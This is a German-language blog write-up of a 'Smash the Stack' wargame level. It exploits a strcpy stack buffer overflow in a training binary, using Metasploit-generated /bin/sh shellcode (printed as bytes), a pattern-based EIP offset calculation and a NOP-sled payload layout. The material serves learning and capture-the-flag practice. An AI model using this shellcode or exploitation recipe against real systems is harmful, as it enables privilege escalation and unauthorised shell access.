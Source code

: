 ```yaml
---
title:  "Smash the Stack 5"
date:   2014-10-17T13:13:13+01:00
draft: false
toc: false
---
```


Herzlich willkommen zurück zu Smash-the-Stack Level5. Dieses mal widmen wir uns folgendem C-Sourcecode (level05.c) :

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
    char buf[128];
    if(argc < 2) return 1;
    strcpy(buf, argv[1]);
    printf("%s\n", buf);	
    return 0;
}
```
Wie unschwer zu erkennen ist sieht das wieder verdammt nach einem guten alten Buffer-Overflow aus. Als erstes wird ein Char-Buffer mit 128 bytes als Festgröße intialisiert. Danach wird die Anzahl der Argumente überprüft. Wird kein Argument übergeben wird das Programm mit dem Returnwert 1 beendet. Nun wird mit der Funktion `strcpy` das erste Argument in den Buffer kopiert. Dieser Buffer wird dann ausgegeben und das Programm wird mit Returnwert 0 beendet.

Wie wir beim Sourcecode von level05.c sehen haben wir diesesmal keine extra-Funktion die eine Shell für uns spawnt. Also müssen wir dies diesesmal erledigen. Zum Generieren des nötigen Shellcodes nutze ich einige tolle Funktionen von `Metasploit`. `Metasploit` ist ein Framework zur Entwicklung und Ausführung von stabilen Exploits. Generieren wir uns also erstmal nötigen Shellcode. Dafür nutze ich bei mir lokal auf der Angreifer-Maschinen folgenden Befehl:

`ruby-1.9 msfpayload linux/x86/exec cmd=/bin/sh PrependSetresuid=true R|ruby-1.9 msfencode -e x86/shikata_ga_nai -b '\x04'`

`msfpayload` ist ein in der Programmiersprache `Ruby` geschriebener Payload-Generator. Der Payload ist der Schadcode der bei dem Exploit ausgeführt wird. Als Ziel-Architektur haben wir den Parameter `linux/x86/exec` gesetzt. Das heißt `mfspayload` wird einen Payload für eine 32bit Linux-Maschine generieren. Als Kommando setzen wir `/bin/sh`. Der Payload tut also nichts weiteres als `/bin/sh` ausführen. Das `PrependSetresuid` setzt die richtige real user id im shellcode. Das "R" steht für "Raw". Wir generieren also rohen Shellcode. Der Strich nach dem R ist eine Pipe. Damit pipen wir den Output von msfpayload nach msfencode und entfernen die Escapesequenz "\x04". "\x04" ist die Escape-Sequenz für EOT ( End of Transmission ) welcher mir im Shellcode einige Probleme bereitete. Andere nicht gewollte Escape-Sequenzen haben wir zum Glück nicht im Shellcode. So könnte zb die Escape-Sequenz: "\x00" dafür sorgen, dass der Payload nicht vollständig in den Buffer kopiert wird da `strcpy` denkt dort wäre der String zu Ende. "\x00" nennt man auch "Null-Terminator" und ist sowas wie das Symbol für "Hier ist der String zu Ende". Außerdem spezifizieren wir mit dem "-e" Parameter den richtigen Encoder. Wenn man diese Option vergisst benutzt msfencode gerne mal Powershell_base64 als default encoder was zu fehlerhaften shellcode auf linux Systemen führt. Der Output von msfpayload bzw msfencode sieht bei mir so aus:

```
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)

buf = 
"\xd9\xce\xd9\x74\x24\xf4\x5e\x2b\xc9\xba\x52\x33\x98\x84" +
"\xb1\x0e\x31\x56\x18\x83\xee\xfc\x03\x56\x46\xd1\x6d\xb5" +
"\xaf\x24\x55\x41\xcc\xf7\xcd\x63\x92\x92\x06\x24\x0b\x30" +
"\x7f\xbc\x06\xd6\xf6\xdb\x30\x37\x7a\x4c\xc0\x2f\x53\xee" +
"\xa9\xc1\x22\x0d\x7b\xf6\x3d\xd2\x7b\x06\x11\xb0\x12\x68" +
"\x42\x47\x8c\x74\xcb\xf4\xc5\x94\x3e\x7a"
```

Damit ist der Payload genau 80 Bytes groß. Dies ist wichtig für uns, weil der Buffer nur 128 Bytes Platz bietet. 

Wir haben den Payload. Widmen wir uns also wieder der level05.c Binary. Ähnlich wie in Level03 generieren wir erstmal ein Pattern. Dazu benutzen wir aber diesesmal `pattern_create.rb`. Dieses kleine Ruby-Programm finden wir ebenfalls im `Metasploit`-Framework. Mit dem folgenden Befehl kreieren wir ein einzigartiges pattern:

`ruby-1.9 pattern_create.rb 170`

Wenn wir Level05 nun in gdb starten und das pattern als Argument übergeben und level05 ausführen erhalten wir folgenden Output:

![pattern](/img/pattern.png)

Anhand dieses Outputs können wir nun den Offset zum instruction pointer Register (EIP) berechnen den wir brauchen. Dazu nutzen wir `pattern_offset.rb` ebenfalls im `Metasploit`-Framework enthalten:

`ruby-1.9 pattern_offset.rb 37654136`

Der daraus berechnete Offset beträgt genau: 140 Bytes.

Als nächstes können wir nun anfangen den stabilen exploit zu bauen. Dafür benutzen wir eine sogenannte "nop-sled". Das sind ganz einfach mehrere "\x90" ( nop ) Operationen hintereinander als Einstiegspunkt. So brauchen wir nur eine nop-Operation treffen und gleiten praktisch in den Shellcode rein der dann die shell für uns ausführt. Die richtige Adresse, also die Adresse an der sich die nop-sled befindet finden wir durch breakpoints setzen und untersuchen des Stacks heraus. Als Layout habe ich mich für diesen Aufbau hier entschieden:

30 * nop + shellcode + 30 * nop + (return adresse die in den nop-sled zeigt)

Davor hatte ich folgendes Layout ausprobiert:

60 * nop + shellcode + (return adresse die in den nop-sled zeigt)

Dies hatte leider seltsamerweise zu segfaults gefühlt. Wieso sich der Exploit so verhalten hat kann ich mir nicht erklären. Aber anscheinend macht es einen Unterschied wo der Shellcode auf dem Stack liegt. Sehr interessant. Ein Vorfall der weiter untersucht werden möchte.

![creepy](/img/creepy.png)

Damit wäre Level05 auch endlich gelöst.

